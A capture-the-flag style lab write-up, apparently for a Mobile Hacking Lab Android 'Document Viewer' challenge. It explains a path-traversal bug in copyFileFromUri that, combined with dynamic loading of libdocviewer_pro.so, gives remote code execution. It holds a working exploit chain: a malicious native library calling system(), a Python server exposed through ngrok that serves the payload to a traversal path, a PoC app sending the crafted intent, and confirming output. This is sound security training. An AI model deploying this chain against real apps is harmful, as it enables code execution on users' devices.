

## Introduction
Welcome to the Remote Code Execution (RCE) Challenge! This lab provides a real-world scenario where you'll explore vulnerabilities in popular software. Your mission is to exploit a path traversal vulnerability combined with dynamic code loading to achieve remote code execution.

## Objective
Achieve remote code execution through a combination of path traversal and dynamic code loading vulnerabilities.

## Skills Required
Proficiency in reverse engineering Android applications.
Knowledge of Android application architecture and security vulnerabilities.

This `MainActivity` is a publicly accessible entry point in the app `exported="true"`, enabling it to handle specific intents. It can be launched as the main app via the home screen `MAIN` and `LAUNCHER` categories or invoked to view PDF files from `file`, `http`, or `https` schemes. The `BROWSABLE` category allows links to trigger this activity from browsers or external sources.

```xml
<activity
    android:name="com.mobilehackinglab.documentviewer.MainActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:scheme="file"/>
        <data android:scheme="http"/>
        <data android:scheme="https"/>
        <data android:mimeType="application/pdf"/>
    </intent-filter>
</activity>
```

In the `onCreate` method, the activity processes the incoming intent using `handleIntent` and attempts to load the Pro library with `loadProLibrary`. If the library is successfully loaded `proFeaturesEnabled = true`, it initializes the Pro features by invoking the native method `initProFeatures`.

```java
private final native void initProFeatures();

@Override
public void onCreate(Bundle savedInstanceState) {
    ...
    handleIntent();
    loadProLibrary();
    if (this.proFeaturesEnabled) {
        initProFeatures();
    }
}
```

The `handleIntent` method processes an incoming intent by checking if the action is `VIEW` and if it contains a valid `Uri`. If both conditions are met, it uses a utility `CopyUtil` to copy the file from the provided `URI`. This process is observed, and when complete, it invokes a callback to render the PDF file using the renderPdf method.

```java
private final void handleIntent() {
    Intent intent = getIntent();
    String action = intent.getAction();
    Uri data = intent.getData();
    if (Intrinsics.areEqual("android.intent.action.VIEW", action) && data != null) {
        CopyUtil.INSTANCE.copyFileFromUri(data).observe(this, new MainActivity$sam$androidx_lifecycle_Observer$0(new Function1<Uri, Unit>() {
            ...
            public final void invoke2(Uri uri) {
                ...
                mainActivity.renderPdf(uri);
            }
        }));
    }
}
```

The `copyFileFromUri` method creates a copy of the file referenced by the provided `Uri` and returns a `MutableLiveData<Uri>` to observe the operation's progress. It determines the output file name from the URI's last path segment defaulting to `download.pdf` if unavailable and sets the destination in the `DOWNLOADS_DIRECTORY`. The line `File outFile = new File(file, lastPathSegment)`; introduces a path traversal vulnerability if `lastPathSegment` contains malicious input such as `../` allowing us to write outside `DOWNLOADS_DIRECTORY`

```java
public final MutableLiveData<Uri> copyFileFromUri(Uri uri) {
    Intrinsics.checkNotNullParameter(uri, "uri");
    URL url = new URL(uri.toString());
    File file = CopyUtil.DOWNLOADS_DIRECTORY;
    String lastPathSegment = uri.getLastPathSegment();
    if (lastPathSegment == null) {
        lastPathSegment = "download.pdf";
    }
    File outFile = new File(file, lastPathSegment);
    MutableLiveData liveData = new MutableLiveData();
    BuildersKt.launch$default(GlobalScope.INSTANCE, Dispatchers.getIO(), null, new CopyUtil$Companion$copyFileFromUri$1(outFile, url, liveData, null), 2, null);
    return liveData;
}
```

The `renderPdf` method opens a PDF file from the provided URI and renders its content. It uses the `ContentResolver` to obtain a `ParcelFileDescriptor` for the file, which is passed to a `PdfRenderer` to handle the rendering process.

```java
public final void renderPdf(Uri uri) {
    try {
        ParcelFileDescriptor parcelFileDescriptor = getContentResolver().openFileDescriptor(uri, "r");
        if (parcelFileDescriptor != null) {
            final PdfRenderer pdfRenderer = new PdfRenderer(parcelFileDescriptor);
            ...
        }
    } catch (Exception e) {
        Log.e(TAG, "Error rendering PDF: " + uri, e);
    }
}
```

The `loadProLibrary` method attempts to load a native library `libdocviewer_pro.so` specific to the device's ABI from the app's files directory. If successful, it enables Pro features `proFeaturesEnabled = true`. If the library cannot be loaded, it logs an error and disables Pro features, making it compatible with the Free version.

```java
private final void loadProLibrary() {
    try {
        String abi = Build.SUPPORTED_ABIS[0];
        File libraryFolder = new File(getApplicationContext().getFilesDir(), "native-libraries/" + abi);
        File libraryFile = new File(libraryFolder, "libdocviewer_pro.so");
        System.load(libraryFile.getAbsolutePath());
        this.proFeaturesEnabled = true;
    } catch (UnsatisfiedLinkError e) {
        Log.e(TAG, "Unable to load library with Pro version features! (You can ignore this error if you are using the Free version)", e);
        this.proFeaturesEnabled = false;
    }
}
```

## Exploit

Since we have a path traversal vulnerability in the `copyFileFromUri` method we can use this to write our custom `libdocviewer_pro.so` that will allow us to trigger an RCE.
We will use android studio to create the binary with the same name `com.mobilehackinglab.documentviewer`



We also use the same function name in the cpp file `initProFeatures`.

```c
#include <jni.h>
#include <string>

extern "C" JNIEXPORT jstring JNICALL
Java_com_mobilehackinglab_documentviewer_MainActivity_stringFromJNI(
        JNIEnv* env,
        jobject /* this */) {
    std::string hello = "Hello from C++";
    return env->NewStringUTF(hello.c_str());
}

extern "C" JNIEXPORT jstring JNICALL
Java_com_mobilehackinglab_documentviewer_MainActivity_initProFeatures(
        JNIEnv* env,
        jobject /* this */) {
    system("echo \"HACKED\" > /data/data/com.mobilehackinglab.documentviewer/proof.txt");
}
```

We build the apk file and decompile it with apktool to get the compiled binaries. We then rename the binary

``` shell
mv libdocumentviewer.so libdocviewer_pro.so
```

Next we create a python serve in the same location to serve our file. with the path traversal exploit
`../../../../../data/data/com.mobilehackinglab.documentviewer/files/native-libraries/x86/libdocviewer_pro.so`.

```python
import os
import urllib
from http.server import BaseHTTPRequestHandler, HTTPServer

class MyHackyServer(BaseHTTPRequestHandler):

    def do_GET(self):
        decoded_path = urllib.parse.unquote(self.path[1:])
        print(f"Decoded Path: {decoded_path}")
        if decoded_path == '../../../../../data/data/com.mobilehackinglab.documentviewer/files/native-libraries/x86/libdocviewer_pro.so':
            file_to_serve = 'libdocviewer_pro.so'
            
            if os.path.exists(file_to_serve):
                self.send_response(200)
                self.send_header('Content-Type', 'application/octet-stream')  # Add proper headers
                self.end_headers()
                with open(file_to_serve, 'rb') as file:
                    self.wfile.write(file.read())
            else:
                self.send_response(404)
                self.end_headers()
                print(b"File not found")
        else:
            self.send_response(404)
            self.end_headers()
            print(b"Invalid path")

myServer = HTTPServer(('localhost', 8002), MyHackyServer)
myServer.serve_forever()

```

We fire up the server and use ngrok 

```shell
python serve.py
```

```shell
ngrok http http://localhost:8002
```

We create out poc to start the app with the malicious intent

```java
package com.example.documentviewerpoc;

import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import android.view.View;
import android.widget.Button;

import androidx.activity.EdgeToEdge;
import androidx.appcompat.app.AppCompatActivity;
import androidx.core.graphics.Insets;
import androidx.core.view.ViewCompat;
import androidx.core.view.WindowInsetsCompat;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        EdgeToEdge.enable(this);
        setContentView(R.layout.activity_main);
        ViewCompat.setOnApplyWindowInsetsListener(findViewById(R.id.main), (v, insets) -> {
            Insets systemBars = insets.getInsets(WindowInsetsCompat.Type.systemBars());
            v.setPadding(systemBars.left, systemBars.top, systemBars.right, systemBars.bottom);
            return insets;
        });

        Button button = findViewById(R.id.button);

        Intent intent = new Intent();
        intent.setAction(Intent.ACTION_VIEW);
        intent.setData(Uri.parse("https://dcd8-41-90-184-70.ngrok-free.app/..%2f..%2f..%2f..%2f..%2fdata%2fuser%2f0%2fcom.mobilehackinglab.documentviewer%2ffiles%2fnative-libraries%2fx86%2flibdocviewer_pro.so"));
        intent.setClassName("com.mobilehackinglab.documentviewer", "com.mobilehackinglab.documentviewer.MainActivity");

        button.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {
                startActivity(intent);
            }
        });
    }
}
```

After clicking the button we get this to confirm that our payload was transferred successfully

```shell
python serve.py
Decoded Path: ../../../../../data/data/com.mobilehackinglab.documentviewer/files/native-libraries/x86/libdocviewer_pro.so
127.0.0.1 - - [04/Dec/2024 14:17:27] "GET /..%2f..%2f..%2f..%2f..%2Fdata%2Fdata%2Fcom.mobilehackinglab.documentviewer%2Ffiles%2Fnative-libraries%2Fx86%2Flibdocviewer_pro.so HTTP/1.1" 200 -
```

Checking in the `/data/data/com.mobilehackinglab.documentviewer/files/native-libraries/x86` folder we 
get our binary

```shell
vbox86p:/data/data/com.mobilehackinglab.documentviewer/files/native-libraries/x86 # ls
libdocviewer_pro.so
```

To trigger it we now need to restart the app again. checking `/data/data/com.mobilehackinglab.documentviewer`
our `proof.txt` file was written successfully.

```shell
vbox86p:/data/data/com.mobilehackinglab.documentviewer # ls
cache code_cache files proof.txt 
vbox86p:/data/data/com.mobilehackinglab.documentviewer # cat proof.txt                                                                                                                                                      
HACKED
```

